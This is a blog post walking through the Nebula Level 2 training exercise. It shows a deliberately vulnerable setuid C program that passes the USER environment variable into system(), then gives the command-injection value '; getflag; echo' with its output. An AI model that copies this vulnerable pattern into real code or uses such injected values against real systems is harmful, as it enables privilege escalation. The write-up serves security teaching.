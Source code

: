 ```yaml
---
layout: post
title:  "Exploit Excercises - Nebula: Level 2"
date:   2016-07-30 12:32:00 +0200
categories: exercises security
---
```


> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

~~~ c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
~~~

* * *

This level follows the same patterns as the previous one, although one could argue this one is more obvious.

The environment variable `USER` is passed as an argument to `/bin/echo`. Note that there's no way for us to change which `echo` binary is called this time since the absolute path is used!

Anyway, the exploit is done by setting the user variable to something like this:

~~~ bash
level02@nebula:~$ export USER="; getflag; echo"
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo ; getflag; echo is cool")

You have successfully executed getflag on a target account
is cool
~~~

We terminate the first `echo` command with a semicolon, then we call the `getflag` command, and adds another echo to avoid syntax errors.

[Let's continue]({% post_url 2016-07-30-exploit-exercises-level-3 %})
